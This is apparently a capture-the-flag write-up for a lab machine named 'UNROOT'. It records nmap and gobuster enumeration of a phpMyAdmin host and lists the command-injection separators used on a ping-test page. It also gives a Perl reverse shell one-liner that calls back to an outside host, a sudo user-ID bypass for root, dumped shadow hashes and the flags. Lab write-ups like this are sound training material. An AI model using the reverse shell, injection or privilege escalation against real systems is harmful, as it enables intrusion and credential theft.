







# UNROOT



## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:3e:e1:4a:f7:43:35:f8:f3:87:f4:cf:9e:94:94:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUF817FS5waGw93gPXGfef4lSpxXy+owMYj/vCHglELtfsn21v/PfDkj0j7j68SOm/n9FyOSiflOl8gdYS8Vz6olRznnQVLVyEEFZiKuJk9j3Gyqizwp+UhhPbnSAWOcm4ATpLM1lv6Zd63MvOspHBX6A+831bMN01yJd1odsMeP3ToerFKvAvFJEU8l+ZX7fLd65JY0t5s+kwT2occc/tNJIUYrak3Nvs/7Z3KSpscComafA+dFSvG8clm/Pc+XICYoHCxOc/PqZbqliLCZ6vPRwrTbI+CZHFeKRyvxH86CMRWwcJfFxEAazjzEFmaKdlWqDaLbRw13nUuURTsdUX
|   256 31:ae:2e:71:f6:45:da:8a:ce:03:ed:b6:29:8b:05:f7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGqfN+KWg/iZzC5UbRzKsGJv+yPd4aZqj9tql3uMS8TnCMiGFHlppMjBIs5KTa8ddnDFPdjcz/Z9yOJxXBHS3rc=
|   256 7a:8b:f4:80:d7:23:27:f0:9a:a0:4a:e6:df:d7:87:7c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAFATu2GzrE9Xxsj2u/3Bth8wzqzNTChL8ssEsepIflk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 531B63A51234BB06C9D77F219EB25553
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: phpMyAdmin
```

## PORT 80 ENUMERATION


### GOBUSTER

```text
gobuster dir -u http://172.31.1.17 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt -t 20
```

```text
/index.php            (Status: 200) [Size: 10556]
/templates            (Status: 301) [Size: 314] [--> http://172.31.1.17/templates/]
/themes.php           (Status: 200) [Size: 10535]                                  
/themes               (Status: 301) [Size: 311] [--> http://172.31.1.17/themes/]   
/doc                  (Status: 301) [Size: 308] [--> http://172.31.1.17/doc/]      
/ajax.php             (Status: 200) [Size: 10547]                                  
/navigation.php       (Status: 200) [Size: 10560]                                  
/license.php          (Status: 200) [Size: 10549]                                  
/dev                  (Status: 301) [Size: 308] [--> http://172.31.1.17/dev/]      
/README               (Status: 200) [Size: 1520]                                   
/js                   (Status: 301) [Size: 307] [--> http://172.31.1.17/js/]       
/javascript           (Status: 301) [Size: 315] [--> http://172.31.1.17/javascript/]
/logout.php           (Status: 200) [Size: 10540]                                   
/libraries            (Status: 301) [Size: 314] [--> http://172.31.1.17/libraries/] 
/changelog.php        (Status: 200) [Size: 10541]                                   
/url.php              (Status: 302) [Size: 0] [--> /]                               
/export.php           (Status: 200) [Size: 10559]                                   
/ChangeLog            (Status: 200) [Size: 19186]                                   
/vendor               (Status: 301) [Size: 311] [--> http://172.31.1.17/vendor/]    
/robots.txt           (Status: 200) [Size: 26]                                      
/sql.php              (Status: 200) [Size: 10542]                                   
/import.php           (Status: 200) [Size: 10546]                                   
/lint.php             (Status: 200) [Size: 10537]                                   
/server_status.php    (Status: 200) [Size: 10560]                                   
/phpinfo.php          (Status: 200) [Size: 10561]                                   
/server-status        (Status: 403) [Size: 276]                                     
/db_search.php        (Status: 200) [Size: 10552]
```

### /DEV/INFO.PHP



### /DEV/PING-TEST.PHP






```text
; command 
& command
| command
```

## EXPLOIT

* PERL never let us down


```text
perl -e 'use Socket;$i="10.10.0.63";$p=6666;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



## PRIVESC



```text
sudo -u#-1 /bin/bash
```



## CREDS

```text
root:$6$BOmr7DO0$2970RAQsRRYX6e0qrd/reqZfxq0pJy5KN.iPoUvLQRfSTvJS.mCmFSr3cmno9dDiPhG7xUd7FscekmDtB5A3A/:18382:0:99999:7:::
joe:$6$bhRy5d6p$qsX7CxMpYmUVWKEUL2.U2982zYw/x6bbbsZdzNDobGYKPM76I21Eyi19/y0KuBRbrjlYWjmh0.MnFRTQthf.J0:18386:0:99999:7:::
```

## FLAGS

### USER

```text
7e42b3011f69f0e148b87ce2f55cf027
```

### ROOT

```text
4d4e7772570b00176a8db37508abcdb0
```


